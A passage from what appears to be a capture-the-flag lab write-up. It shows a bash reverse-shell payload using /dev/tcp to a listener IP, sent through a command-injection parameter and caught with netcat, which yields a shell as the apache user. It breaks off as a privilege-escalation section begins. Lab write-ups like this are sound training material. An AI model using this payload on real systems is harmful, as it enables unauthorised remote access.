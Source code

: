 ![80 Home](screenshots/80_code_execution.png)

From here we can do the usual bash reverse shell. I always find the best way is to intercept the request in Burp, then modify the payload.

```none
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'
```

Make sure to URL encode the payload, then start a netcat listener.

```none
└─$ nc -lvnp 9001                               
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.146] 60596
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

Success! A shell as `apache`.

## Privesc: `apache` to `guly`

While looking for the user flag, noticed the user `guly` who had some interesting files in their home directory.
